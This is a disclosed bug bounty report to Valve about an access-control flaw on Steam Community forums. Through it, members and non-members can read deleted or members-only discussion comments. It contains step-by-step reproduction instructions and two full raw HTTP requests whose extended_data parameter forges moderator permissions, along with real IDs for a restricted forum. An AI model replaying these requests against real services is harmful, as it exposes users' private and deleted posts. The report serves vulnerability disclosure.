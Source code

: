 # Read Access to all comments on unauthorized forums' discussions! IDOR! 

## Report Details
- **Report ID**: 308610
- **URL**: https://hackerone.com/reports/308610
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-01-24T11:10:24.862Z
- **Disclosed**: 2018-05-09T17:38:52.389Z

## Reporter
- **Username**: ta8ahi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: valve

## Vulnerability Information
hi,

For a forum's discussion, only ` moderator+ ` ranks are allowed to **view comments which have been deleted** by a ` officer/moderator `. 

I have found an issue where a ` member `(who is not allowed to view deleted comments) can get read access to the deleted comments on a forum's discussion.

Also, a ` non-member ` who ` can't view the discussions belonging to an unauthorized forum `, can **expose the comments** on discussions of such forums. He can get read access to all i.e ` even deleted ` comments on such forums.


##Steps to reproduce:
###First we try to expose deleted comments to a member rank user

* Have a forum with such permissions:
{F256910}
So, here ` members ` can view the discussions belonging to this forum, but aren't allowed to view any deleted comments.

Also, ` non-members ` **can't even view the discussions.**
* In the forum, have a discussion, which has some comments, and delete a few of them.

* From ` member ` account, visit the target discussion, ` view-source ` of the page, search for ` forumtopic_ ` where you will find the **GroupId**, **forumId**, **discussion-id** in ` ForumTopic_***GroupID***_***forumID***_***discussionID***  `  format. Note these down.
* now, with credentials (` cookies/sessionId `) belonging to a ` member ` account, make the following request:

```
POST /comment/ForumTopic/delete/***GroupID***/***forumID***/ HTTP/1.1
Host: steamcommunity.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/javascript, text/html, application/xml, text/xml, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
X-Prototype-Version: 1.7
Content-Length: 597
Cookie: ***********member-cookies****
Connection: close

gidcomment=00000&comment=boom...x&start=0&count=15&sessionid=***************&extended_data=%7B%22topic_permissions%22%3A%7B%22can_view%22%3A1%2C%22can_post%22%3A0%2C%22can_reply%22%3A0%2C%22can_moderate%22%3A1%2C%22can_edit_others_posts%22%3A1%2C%22can_purge_topics%22%3A1%2C%22is_banned%22%3A0%2C%22can_delete%22%3A1%2C%22can_edit%22%3A1%7D%2C%22original_poster%22%3A0%2C%22topic_gidanswer%22%3A%220%22%2C%22forum_appid%22%3A0%2C%22forum_public%22%3A0%2C%22forum_type%22%3A%22General%22%2C%22forum_gidfeature%22%3A%220%22%7D&feature2=***discussionID***&oldestfirst=true&include_raw=true



```

Provide the IDs you noted down as stated in the request. Keep the ` extended_data ` param as it is.

* send the request through
* in the response search for ` comments_raw `, you will see that even the deleted comments were shown to you.


###now Lets attempt to expose comments to a user who is not allowed to view the forum

* Now, with credentials (` cookies/sessionId `) belonging to a ` non-member ` account, make the following request:

```
POST /comment/ForumTopic/delete/***GroupID***/***forumID***/ HTTP/1.1
Host: steamcommunity.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/javascript, text/html, application/xml, text/xml, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
X-Prototype-Version: 1.7
Content-Length: 597
Cookie: ***********member-cookies****
Connection: close

gidcomment=00000&comment=boom...x&start=0&count=15&sessionid=***************&extended_data=%7B%22topic_permissions%22%3A%7B%22can_view%22%3A1%2C%22can_post%22%3A0%2C%22can_reply%22%3A0%2C%22can_moderate%22%3A1%2C%22can_edit_others_posts%22%3A1%2C%22can_purge_topics%22%3A1%2C%22is_banned%22%3A0%2C%22can_delete%22%3A1%2C%22can_edit%22%3A1%7D%2C%22original_poster%22%3A0%2C%22topic_gidanswer%22%3A%220%22%2C%22forum_appid%22%3A0%2C%22forum_public%22%3A0%2C%22forum_type%22%3A%22General%22%2C%22forum_gidfeature%22%3A%220%22%7D&feature2=***discussionID***&oldestfirst=true&include_raw=true

```
Provide the same IDs as in the previous request. Or you can try with ` ForumTopic_103582791461362746_1692659135923574526_1692659769940104935 `, these IDs belong to a **Group-->forum** which has view permissions set to ` members-only `.

In response, search for ` comments_raw  `, you will see all comments were exposed to a user who ` does not even have the permission to view this discussion `.

## Impact

* ` Non-members ` without having the access to ` view a forum ` can get **read access** to all comments including deleted comments on such forum discussions. 
* ` Members ` get **read access** to ` deleted comments ` on forum discussions.

All these attacks require no user interaction, i.e attacker can ex-filtrate these on his own machine.


thanks,
Tabahi

## Attachments
- initialPermissions.PNG
